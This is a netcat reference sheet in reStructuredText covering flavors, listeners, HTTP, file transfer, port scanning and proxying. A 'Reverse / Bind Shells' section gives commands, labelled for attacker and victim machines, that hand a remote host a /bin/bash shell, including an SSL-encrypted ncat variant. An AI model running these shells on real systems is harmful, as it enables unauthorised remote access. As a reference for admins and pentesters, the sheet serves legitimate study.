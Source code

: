 
======
Netcat
======
* `Netcat - All you need to know <https://blog.ikuamike.io/posts/2021/netcat/>`_
    - `HN <https://news.ycombinator.com/item?id=27973020>`__
* `10 useful ncat (nc) Command Examples for Linux Systems <https://lpicentral.blogspot.com/2018/08/10-useful-ncat-nc-command-examples-for.html>`_
* `How to Use Netcat Commands: Examples and Cheat Sheets <https://www.varonis.com/blog/netcat-commands/>`_

Netcat flavors
==============
* Traditional
    - ``sudo apt install netcat-traditional``
    - if other flavor present, call ``nc.traditional`` binary
    - legacy
* GNU
    - To be `downloaded <http://netcat.sourceforge.net/>`__
    - rewritten to be more portable
    - legacy
* OpenBSD
    - ``sudo apt install netcat-openbsd`` (or just ``netcat``)
    - has ``-e`` flag deleted as dangerous
    - supports IPv6, proxies and unix sockets
* Nmap
    - ``sudo apt install ncat``
    - most feature rich

Server / Client mode
====================

Server:

.. code-block:: sh

    nc -lp 8080
    nc -ls 127.0.0.1 -p 8080  # bind to localhost
    nc -lup 8080              # udp
    nc -lk 8080               # force server to stay up
    nc -lU /tmp/socket        # listen to unix socket

Client:

.. code-block:: sh

    nc - 127.0.0.1 8080
    nc -u 127.0.0.1 8080  # udp

Reverse / Bind Shells
=====================

Reverse shells:

.. code-block:: sh

    # Server (attacker machine)
    nc -lp 8080
    # Client (victim machine)
    nc -e /bin/bash 192.168.125.10 8080

Bind shells:

.. code-block:: sh

    # Server (victim machine)
    nc -e /bin/bash -lp 8080
    # Client (attacker machine)
    nc 192.168.125.10 8080

Ncat encrypted reverse shell:

.. code-block:: sh

    ncat --ssl -lp 8080
    ncat --ssl -e /bin/bash 192.168.125.10 8080

    # allow connections only from specific host
    nc --allow 127.0.0.1 -e /bin/bash -lvnp 8000

HTTP Client and Server
======================

Client:

.. code-block:: sh

    {
    cat <<EOF ; sleep 1;
    GET / HTTP/1.0
    Host: wttr.in
    User-Agent: curl

    EOF
    } | nc wttr.in 80

Server:

.. code-block:: sh

    {
    cat <<EOF ; sleep 1;
    HTTP/1.0 200 OK
    Content-Length: $(wc -c <~/.profile)

    EOF
    cat ~/.profile
    } | nc -l 8000

File Transfer
=============

Example:

.. code-block:: sh

    # server1 --> server2
    nc -lp 8080 < infile              # server1
    nc 192.168.125.10 8080 > outfile  # server2

    # server1 <-- server2
    nc 192.168.125.20 8080 < infile  # server1
    # OR nc --send-only 192.168.125.20 8080 < infile  # server1
    nc -lp 8080 > outfile          # server2

Port Scanning
=============

Example:

.. code-block:: sh

    # TCP
    nc -nvv -w 1 -z 127.0.0.1 1-65535 2>&1 |grep -v refused
    # UDP
    nc -nvv -w 1 -z -u 127.0.0.1 1-65535

Traffic Redirection
===================

Only possible on flavors with ``-e`` option:

.. code-block:: sh

    # server1 <-----> server2 <-----> server3
    # run on server2
    # 192.168.125.40 is server3
    ncat -klvnp 8000 -e "/bin/nc 192.168.125.40 8080"

Other option:

.. code-block:: sh

    # One way
    nc -l 8080 | nc 192.168.1.200 80

    # Two way proxy
    mkfifo 2way
    nc -l 8080 0<2way | nc 192.168.1.200 80 1>2way
